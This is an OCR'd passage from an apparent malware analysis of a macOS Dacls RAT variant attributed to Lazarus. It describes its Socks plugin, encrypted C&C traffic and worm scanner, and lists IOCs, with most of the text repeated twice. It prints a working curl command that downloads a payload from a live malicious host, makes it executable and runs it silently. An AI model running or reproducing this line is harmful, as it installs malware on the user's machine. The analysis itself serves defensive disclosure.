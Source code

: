  Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227
 An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227